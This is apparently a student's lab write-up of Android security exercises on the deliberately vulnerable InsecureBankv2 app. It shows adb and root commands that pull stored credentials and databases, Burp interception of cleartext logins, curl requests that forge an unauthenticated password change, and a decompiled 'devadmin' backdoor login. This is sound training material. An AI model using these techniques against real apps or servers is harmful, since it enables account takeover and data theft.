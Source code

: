 # Tasks
This file contains tasks related to Android mobile reversing.

## Insecure data storage

### Exploiting local data storage

#### Task 1: Find and read the Android Shared Preferences
1. Find the package name

This requires root. With images that use Google APIs,
you may easily get root by entering the following command:
```
$ adb root
```

Without Google API, you may 

Another way, and how I chose to solve this, was using _su_
as in the following snippet:
```bash
Android-InsecureBankv2> adb shell
generic_x86:/ $ su
generic_x86:/ # pm list packages | grep <packagename>
```

2. Copy all preferences to your machine.

Often you would like to have files locally on your machine,
and not on the device you are reversing. To do this, you
need root on the device. However, using _su_ will not do the
magic for us now as that is just within the shell. With images 
that use Google APIs, you may use:
```bash
$ adb root
```

And then, you can use another _adb_ command to pull the file
to you local machine:
```bash
$ adb pull /data/data/<package_name>/shared_prefs/<preference_file>.xml
```

3. Does the file contain anything juicy?

Hellz yeah, it does!
```bash
Android-InsecureBankv2> cat .\mySharedPreferences.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="superSecurePassword">DTrW2VXjSoFdg0e61fHxJg==&#10;    </string>
    <string name="EncryptedUsername">ZGluZXNo&#13;&#10;    </string>
</map>
```

#### Task 2: 
1. Where are the database(s) for this application located?

`/data/data/com.android.insecurebankv2/databases`

2. Copy the database out of the device

`adb pull /data/data/com.android.insecurebankv2/databases .`

3. What type of database is this?

SQLite 3:
```bash
$ cd databases
$ file mydb
mydb: SQLite 3.x database, user version 1, last written using SQLite version 3019004
```

4. Dump the schema
```bash
$ sqlite3 mydb
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .schema
CREATE TABLE android_metadata (locale TEXT);
CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL);
CREATE TABLE sqlite_sequence(name,seq);
```

5. List all tables
```bash
sqlite> .tables
android_metadata  names
```

6. Dump all the tables
```bash
sqlite> .dump names
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL);
INSERT INTO names VALUES(1,'dinesh');
COMMIT;
sqlite> .dump android_metadata
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE android_metadata (locale TEXT);
INSERT INTO android_metadata VALUES('en_US');
COMMIT;
```


### Exploiting database storage
To solve all of the following tasks, Burp Suite was used to intercept all the
traffic coming from the Android emulator. To do this, first install Burp. Open
Burp and click the `Proxy` tab. Ensure that intercept is `on`. To make the app
use Burp as a proxy, go into settings in the emulator and click the `proxy` tab.
Enter the IP address of your computer and set the port to 8080, which is the
default port used by Burp. Traffic should now go through Burp.

What happens when you log in?
1. What protocol is used?
`HTTP`

2. Is it encrypted?
No. Only HTTP is used, not HTTPS.

3. Can you see any sensitive data?
Yes, username and password is sent in clear text.

4. Can you identify other API endpoints?
In the Transfer-menu:
* `/getaccounts` when you press `Get Accounts`
* `/dotransfer` when you press `Transfer`
In the main menu:
* `/changepassword` when you press `Change Password`

Forging requests
1. Can you change the password of `dinesh` without logging in first?
Yes, there is no validation on the server to see if you are already logged in.
We can simply send a POST request to `/changepassword` on the server with the
expected parameters.
From looking at intercepted requests in Burp, we know that the request looks
like this:

```
POST /changepassword HTTP/1.1
Content-Length: 48
Content-Type: application/x-www-form-urlencoded
Host: 192.168.1.105:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=<username>&newpassword=<password>
```
The easiest way to send a forged request is to click Action -> Send to repeater
in Burp. This allows you to click on the `Repeater` tab, change the contents as
you want, and send the modified request.

You can also use curl like this:
```bash
$ curl -d "username=dinesh&newpassword=lol" http://192.168.1.105:8888/changepassword
{"message": "Change Password Successful"}
```
And then verify that we can still log in:
```bash
$ curl -d "username=dinesh&password=lol" http://192.168.1.105:8888/login
{"message": "Correct Credentials", "user": "dinesh"}
```


2. Any other requests you can forge?
We can forge all requests to the server, as there's no checks in place to make
sure that we are logged in. We could transfer money between two accounts, for
example!

## Extraneous Functionality

#### Task 1: Extraneous Functionality
1. Can you find any backdoors or other developer tools left in the app?
After decompiling the source code, e.g. using jadx, we can see that there is a
hidden endpoint at `/devlogin`. Here's an excerpt of the code:
```Java
public void postData(String valueIWantToSend) throws ClientProtocolException, IOException, JSONException, InvalidKeyException, NoSuchAlgorithmException, NoSuc
hPaddingException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
	HttpResponse responseBody;
	HttpClient httpclient = new DefaultHttpClient();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.append(DoLogin.this.protocol);
	stringBuilder.append(DoLogin.this.serverip);
	stringBuilder.append(":");
	stringBuilder.append(DoLogin.this.serverport);
	stringBuilder.append("/login");
	HttpPost httppost = new HttpPost(stringBuilder.toString());
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.append(DoLogin.this.protocol);
	stringBuilder2.append(DoLogin.this.serverip);
	stringBuilder2.append(":");
	stringBuilder2.append(DoLogin.this.serverport);
	stringBuilder2.append("/devlogin");
	HttpPost httppost2 = new HttpPost(stringBuilder2.toString());
	List<NameValuePair> nameValuePairs = new ArrayList(2);
	nameValuePairs.add(new BasicNameValuePair("username", DoLogin.this.username));
	nameValuePairs.add(new BasicNameValuePair("password", DoLogin.this.password));
	if (DoLogin.this.username.equals("devadmin")) {
		httppost2.setEntity(new UrlEncodedFormEntity(nameValuePairs));
		responseBody = httpclient.execute(httppost2);
	} else {
		httppost.setEntity(new UrlEncodedFormEntity(nameValuePairs));
		responseBody = httpclient.execute(httppost);
	}
	[...]
}
```
If you supply `devadmin` as the username, you will simply be logged in without
having to enter a password

2. What can these be used for?

3. If they pose a security risk, what would you do to fix it?
4. Enable debugging on an app that doesn't have it enabled by default.
